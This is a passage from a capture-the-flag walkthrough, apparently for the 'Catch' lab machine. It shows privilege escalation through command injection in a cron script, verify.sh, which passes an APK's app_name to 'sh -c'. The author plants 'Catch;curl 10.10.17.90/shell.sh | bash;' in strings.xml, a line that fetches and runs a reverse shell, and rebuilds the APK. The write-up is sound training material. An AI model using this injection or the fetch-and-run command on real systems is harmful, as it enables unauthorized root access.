 ```terminal
uid=1000(will) gid=1000(will) groups=1000(will)
```

Great! We got a shell.


## **Privilege Escalation**

Let's run `pspy64` and see what we find:

![](10.png)

There is a script called verify.sh that's running regularly, let's check it out.

```bash
[snip]
####################                                                                                                                                 [55/1445]
# Basic App Checks #                                                           
####################                
                                                                                                                                                              
app_check() {                                                                  
        APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml")
        echo $APP_NAME                                                         
        if [[ $APP_NAME == *"Catch"* ]]; then                                  
                echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
                mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
        else                          
                echo "[!] App doesn't belong to Catch Global"                  
                cleanup                                                        
                exit                                                           
        fi                                                                     
}                                     
[snip]
```

The part that's useful to us is the Basic App Checks which is vulnerable to command injection.

The script goes to /opt/mnd/apk_bin and checks for `.apk` files, if it finds one it extract it and checks the `app_name` in `/res/value/strings.xml`, the vulnerability is in this line `echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'`, and if we can control the APP_NAME variable we can inject command.

Using the apk file we got earlier, we go to the `strings.xml` file and we add a command in the `app_name`

```terminal
$ grep -Ri app_name catchv1.0/res/values/strings.xml
    <string name="app_name">Catch;curl 10.10.17.90/shell.sh | bash;</string>
```

The command I added requests a reverse shell from my web server and pip to bash.

Now we compile the application.

```terminal
$ java -jar apktool_2.7.0.jar b catchv1.0 -o hacked.apk
I: Using Apktool 2.7.0
I: Checking whether sources has changed...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk into: hacked.apk
```

